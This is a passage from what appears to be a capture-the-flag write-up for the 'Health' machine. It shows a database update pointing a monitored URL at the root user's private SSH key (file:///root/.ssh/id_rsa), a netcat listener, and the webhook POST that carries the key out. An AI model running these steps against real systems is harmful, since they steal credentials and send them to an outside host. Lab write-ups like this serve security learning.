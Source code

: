```bash
```

As we can see here if we insert into the task table and since the monitored url is expecting a file…we can read the .ssh_key of the root user and intercept it while playing with the webhook again but this time we are going to create and not test it

![webhook.png](/Assets/Pictures/Health/webhook.png)

Let’s not forget to set the listener on port 80, and also to update the table with the monitored url pointing at `/root/.ssh/id_rsa`

```bash
mysql> update tasks set monitoredUrl='file:///root/.ssh/id_rsa';
Query OK, 0 rows affected (0.00 sec)
Rows matched: 0  Changed: 0  Warnings: 0
```

now we wait on our listener to capture the file

```bash
sudo nc -nvlp 80
Listening on 0.0.0.0 80
Connection received on 10.10.11.176 44126
POST / HTTP/1.1
Host: 10.10.16.6
Accept: */*
Content-type: application/json
Content-Length: 1828
Expect: 100-continue

```